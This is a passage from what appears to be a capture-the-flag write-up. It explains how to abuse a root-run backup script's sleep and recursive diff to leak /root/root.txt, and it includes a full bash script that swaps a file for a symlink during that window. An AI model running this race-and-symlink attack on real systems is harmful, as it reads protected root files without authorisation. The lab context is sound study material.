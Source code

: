 To exploit this script, I’ll take advantage of two things: the sleep, and the recursive diff. During the sleep, I’ll unpack the archive, replace one of the files with a link to `/root/root.txt`, and re-archive it. Then when the script opens the archive and runs the diff, the resulting file will be different, and the contents of both files will end up in the log file.

I originally did this with a long bash one-liner, but it is easier to follow with a script:

```

#!/bin/bash

# work out of shm
cd /dev/shm

# set both start and cur equal to any backup file if it's there
start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")

# loop until there's a change in cur
echo "Waiting for archive filename to change..."
while [ "$start" == "$cur" -o "$cur" == "" ] ; do
    sleep 10;
    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
done

# Grab a copy of the archive
echo "File changed... copying here"
cp $cur .

# get filename
fn=$(echo $cur | cut -d'/' -f4)

# extract archive
tar -zxf $fn

# remove robots.txt and replace it with link to root.txt
rm var/www/html/robots.txt
ln -s /root/root.txt var/www/html/robots.txt

# remove old archive
rm $fn

# create new archive
tar czf $fn var

# put it back, and clean up
mv $fn $cur
rm $fn
rm -rf var

# wait for results
echo "Waiting for new logs..."
tail -f /var/backups/onuma_backup_error.txt

```
